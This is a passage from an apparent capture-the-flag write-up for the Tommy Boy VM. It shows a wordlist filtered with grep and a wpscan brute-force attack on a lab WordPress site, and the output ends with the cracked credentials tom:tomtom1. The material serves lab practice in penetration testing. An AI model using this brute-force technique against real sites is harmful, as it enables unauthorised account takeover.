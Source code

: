 Hah great bunch of passords, but sadly I don't have use for the banking or wedding sites.   So we have been provided two clues:

* Auto Server bigtommysenior:fatguyinalittlecoat???? - numbers available in blog
* Blog server tom:(some queen song) - note he got his username wrong there, we discovered it was tom via the wpscan earlier.

Well I ran around a bit trying to figure out the Famous Queen song and it finally hit me [famous queen song](https://www.youtube.com/watch?v=qGaOlfmX8rQ).  So off to brute with wpscan against the rockyou database.  But as thats a huge list and Eric kept saying tom had horrible passwords I decided to grep for tom and see if he uses his name in his password.  And almost immediately like magic I rocked it.

{% highlight bash %}
root@kali:~/evidence/tommyboy1.0# cat /usr/share/wordlists/rockyou.txt | grep tom > tomrockyou.txt
root@kali:~/evidence/tommyboy1.0# wpscan --url http://192.168.244.160/prehistoricforest/ --wordlist /root/evidence/tommyboy1.0/tomrockyou.txt --username tom
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __  
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.1
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.244.160/prehistoricforest/
[+] Started: Tue Sep 20 16:38:16 2016

[!] The WordPress 'http://192.168.244.160/prehistoricforest/readme.html' file exists exposing a version number
[+] Interesting header: LINK: <http://192.168.244.160/prehistoricforest/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: http://192.168.244.160/prehistoricforest/xmlrpc.php
[!] Includes directory has directory listing enabled: http://192.168.244.160/prehistoricforest/wp-includes/

[+] WordPress version 4.5.4 identified from advanced fingerprinting (Released on 2016-09-07)

[+] WordPress theme in use: twentysixteen - v1.2

[+] Name: twentysixteen - v1.2
 |  Location: http://192.168.244.160/prehistoricforest/wp-content/themes/twentysixteen/
 |  Readme: http://192.168.244.160/prehistoricforest/wp-content/themes/twentysixteen/readme.txt
[!] The version is out of date, the latest version is 1.3
 |  Style URL: http://192.168.244.160/prehistoricforest/wp-content/themes/twentysixteen/style.css
 |  Theme Name: Twenty Sixteen
 |  Theme URI: https://wordpress.org/themes/twentysixteen/
 |  Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthe...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : tom Password : tomtom1                                                        